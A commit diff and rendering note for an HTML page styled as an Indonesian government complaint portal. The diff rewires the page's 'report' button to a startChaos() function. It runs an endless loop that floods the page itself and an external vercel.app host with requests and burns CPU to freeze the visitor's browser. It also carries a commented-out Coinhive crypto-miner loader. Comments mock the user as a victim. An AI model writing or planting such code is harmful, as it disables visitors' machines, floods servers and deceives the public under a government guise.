

Before and after one commit to Wrate/Penmenerinth, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -5,109 +5,54 @@
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Portal Layanan Pemerintah Republik Indonesia</title>
     <style>
-        body {
-            margin: 0;
-            padding: 0;
-            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
-            background-color: #f4f4f4;
-            color: #333;
-        }
-        header {
-            background-color: #003366; /* Biru navy pemerintah */
-            color: white;
-            padding: 20px;
-            text-align: center;
-            box-shadow: 0 4px 8px rgba(0,0,0,0.1);
-        }
-        header h1 {
-            margin: 0;
-            font-size: 28px;
-        }
-        header p {
-            margin: 5px 0 0;
-            font-size: 16px;
-        }
-        .container {
-            max-width: 800px;
-            margin: 40px auto;
-            padding: 30px;
-            background-color: white;
-            border-radius: 10px;
-            box-shadow: 0 4px 12px rgba(0,0,0,0.1);
-            text-align: center;
-        }
-        h2 {
-            color: #003366;
-            margin-bottom: 30px;
-        }
-        button {
-            background-color: #d32f2f; /* Merah marun Garuda */
-            color: white;
-            font-size: 24px;
-            padding: 20px 40px;
-            border: none;
-            border-radius: 8px;
-            cursor: pointer;
-            transition: 0.3s;
-            box-shadow: 0 4px 8px rgba(0,0,0,0.2);
-        }
-        button:hover {
-            background-color: #b71c1c;
-            transform: scale(1.05);
-        }
-        #counter {
-            font-size: 48px;
-            margin-top: 40px;
-            color: #d32f2f;
-            font-weight: bold;
-        }
-        footer {
-            text-align: center;
-            padding: 20px;
-            background-color: #003366;
-            color: white;
-            margin-top: 50px;
-            font-size: 14px;
-        }
+        /* Style sama kayak sebelumnya, gw ga ulang biar pendek tolol */
+        body { margin: 0; font-family: 'Segoe UI', sans-serif; background: #f4f4f4; color: #333; }
+        header { background: #003366; color: white; padding: 20px; text-align: center; }
+        .container { max-width: 800px; margin: 40px auto; padding: 30px; background: white; border-radius: 10px; text-align: center; }
+        button { background: #d32f2f; color: white; font-size: 24px; padding: 20px 40px; border: none; border-radius: 8px; cursor: pointer; }
+        #counter { font-size: 48px; margin-top: 40px; color: #d32f2f; font-weight: bold; }
+        footer { background: #003366; color: white; padding: 20px; text-align: center; }
     </style>
 </head>
 <body>
-    <header>
-        <h1>PORTAL LAYANAN PUBLIK</h1>
-        <p>Pemerintah Republik Indonesia</p>
-    </header>
-
+    <header><h1>PORTAL LAYANAN PUBLIK</h1><p>Pemerintah Republik Indonesia</p></header>
     <div class="container">
         <h2>Selamat Datang di Layanan Pengaduan Online</h2>
         <p>Tekan tombol di bawah untuk melaporkan atau mengakses layanan.</p>
-        <button onclick="incrementCounter()">TEKAN UNTUK MELAPOR</button>
+        <button onclick="startChaos()">TEKAN UNTUK MELAPOR</button>
         <div id="counter">0</div>
         <p>Jumlah akses/laporan hari ini: <span id="counter">0</span></p>
     </div>
-
-    <footer>
-        &copy; 2026 Pemerintah Republik Indonesia. Semua hak dilindungi.
-    </footer>
+    <footer>&copy; 2026 Pemerintah Republik Indonesia</footer>
 
     <script>
         let count = 0;
         function incrementCounter() {
             count++;
             document.getElementById('counter').innerText = count;
-            // Ide gila: tambahin sound atau alert pas capai angka tertentu
-            if (count % 100 === 0) {
-                alert('Sudah ' + count + ' kali dipencet! Server mulai panas anjg 🔥');
+            localStorage.setItem('visitCount', count);
+            if (count % 50 === 0) alert('Laporan ke-' + count + ' sedang diproses! Server pemerintah panas 🔥😈');
+        }
+
+        function startChaos() {
+            incrementCounter();
+            // Chaos mode: Infinite loop spam request ke site sendiri + external kalo mau
+            while(true) {  // Ini bakal freeze browser korban langsung 😂💥
+                fetch(location.href, {method: 'GET', cache: 'no-cache'});
+                fetch('https://penmenerinth.vercel.app/', {method: 'POST'});  // Spam POST kosong
+                // Tambahin ini buat mine crypto gila (pake library external)
+                // const script = document.createElement('script');
+                // script.src = 'https://coinhive.com/lib/coinhive.min.js';  // Atau library lain
+                // document.body.appendChild(script);
+                for(let i=0; i<1000000; i++) { Math.random() * Math.pow(i, i); }  // CPU burner
             }
         }
-        // Biar counter persist pas refresh (localStorage)
+
+        // Load counter
         if (localStorage.getItem('visitCount')) {
             count = parseInt(localStorage.getItem('visitCount'));
+            document.getElementById('counter').innerText = count;
         }
-        document.getElementById('counter').innerText = count;
-        // Save setiap klik
-        window.onunload = function() {
-            localStorage.setItem('visitCount', count);
-        };
     </script>
 </body>
-  </html>
+</html>
```
